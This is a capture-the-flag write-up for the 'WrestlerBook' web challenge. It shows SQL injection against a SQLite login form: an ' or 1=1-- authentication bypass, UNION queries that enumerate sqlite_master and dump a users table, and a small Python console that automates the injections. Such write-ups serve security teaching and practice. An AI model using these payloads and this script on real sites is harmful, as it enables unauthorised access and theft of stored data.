 # WrestlerBook
Web, 100 points

## Description

> WrestlerBook is the social network for wrestlers, by wrestlers. WrestlerBook is exclusively for wrestlers, so if you didn't get an invite don't even bother trying to view our profiles.


## Solution

We visit the attached site and see a login page:

```html
<div class="login-form">
    <form action="login.php" method="post">
        <h2 class="text-center">Log in</h2>
        <div class="form-group">
            <input type="text" name="username" class="form-control" placeholder="Username" required="required">
        </div>
        <div class="form-group">
            <input type="password" name="password" class="form-control" placeholder="Password" required="required">
        </div>
        <div class="form-group">
            <button type="submit" class="btn btn-primary btn-block">Log in</button>
        </div>
        <div class="clearfix">
        </div>
    </form>
</div>
```

If we try to enter an apostrophe as the password, we get an SQL error:
```console
root@kali:/media/sf_CTFs/sunshine/WrestlerBook# curl http://archive.sunshinectf.org:19006/login.php -X POST --data "username=a&password='"
<br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: 1, unrecognized token: &quot;'''&quot; in <b>/var/www/html/login.php</b> on line <b>20</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetchArray() on boolean in /var/www/html/login.php:21
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>21</b><br />
```

This means that the site is vulnerable to SQL injection.

We can try to bypass the login test by using **`' or 1=1--`** as the password:
```console
root@kali:/media/sf_CTFs/sunshine/WrestlerBook# curl http://archive.sunshinectf.org:19006/login.php -X POST --data "username=a&password=' or 1=1--"
```

in response, we arrive to a page with details about a wrestler (Hulk Hogan):
```html
<div class="info">
    <div class="title">
        <a target="_blank"> Hulk Hogan </a>
    </div>
    <div class="desc">Username: hulkhogie</div>
    <div class="desc">Age: 65</div>
    <div class="desc">Title:  WWF World Heavyweight Champion</div>
    <div class="desc">Flag: N/A</div>
</div>
```

`SQLMap` can easily dump the database, but let's try doing in manually this time.

We know that the engine is SQLite from the original error message we saw. Let's try to create a UNION statement that will allow us to extract information from the DB.

SQLite has a `sqlite_master` table which holds information about the other tables. We can use it to extract table names and column names. However, first we have to arrive to a query which will have a legal syntax and let us extract the information we want.

We start with a simple union:

```console
root@kali:/media/sf_CTFs/sunshine/WrestlerBook# curl http://archive.sunshinectf.org:19006/login.php -X POST --data "username=a&password=a' UNION select 1 from sqlite_master--"
<br />
<b>Warning</b>:  SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in <b>/var/www/html/login.php</b> on line <b>20</b><br />
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetchArray() on boolean in /var/www/html/login.php:21
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>21</b><br />
```

The error message we get tells us that the SELECTs on both sides of the UNION need to have the same amount of result columns. We increase the amount and try again until arriving to 8 column:

```console
root@kali:/media/sf_CTFs/sunshine/WrestlerBook# curl http://archive.sunshinectf.org:19006/login.php -X POST --data "username=a&password=a' UNION select 1,2,3,4,5,6,7,8 from s
qlite_master--"
...
                <div class="avatar">
                    <img alt="" src="3">
                </div>
                <div class="info">
                    <div class="title">
                        <a target="_blank"> 5 </a>
                    </div>
                    <div class="desc">Username: 1</div>
                    <div class="desc">Age: 4</div>
                    <div class="desc">Title: 6</div>
                    <div class="desc">Flag: 7</div>
                </div>
```

Now we are starting to see data from our query in the page result.

We can use the following Python script for easy trial & error:

```python
import re
import html
import requests
from cmd import Cmd


class MyPrompt(Cmd):
   def do_exit(self, inp):
        return True
 
   def do_send(self, param):
        q = "a' UNION {}--".format(param)
        r = requests.post('http://archive.sunshinectf.org:19006/login.php', data = {'username':"a", 'password': q})
        if "Fatal error" in r.text:
            print (r.text)
        else:
            m = re.search("<a target=\"_blank\">\s+(.+)\s+</a>", r.text)
            if m:
                print (html.unescape(m.group(1)))
            else:
                print(r.text)
 
MyPrompt().cmdloop()
```

This script lets us send queries in a mini-console, and extracts the output for easy viewing:

```console
(Cmd) send SELECT 1,2,3,4,name,6,7,8  FROM sqlite_master WHERE type='table' limit 0,1
sqlite_sequence
(Cmd) send SELECT 1,2,3,4,name,6,7,8  FROM sqlite_master WHERE type='table' limit 1,1
users
(Cmd) send SELECT 1,2,3,4,sql,6,7,8  FROM sqlite_master WHERE type='table' limit 0,1
CREATE TABLE `users` (
        `username`      TEXT,
        `password`      TEXT,
        `avatar`        TEXT,
        `age`   INTEGER,
        `name`  TEXT,
        `title` TEXT,
        `flag`  TEXT,
        `id`    INTEGER PRIMARY KEY AUTOINCREMENT
)
(Cmd) send SELECT 1,2,3,4,flag,6,7,8  FROM users WHERE length(flag) > 0 limit 0,1
N/A
(Cmd) send SELECT 1,2,3,4,flag,6,7,8  FROM users WHERE flag != "N/A" limit 0,1
example_flag
(Cmd) send SELECT 1,2,3,4,flag,6,7,8  FROM users WHERE flag != "N/A" limit 1,1
sun{ju57_4n07h3r_5ql1_ch4ll}
```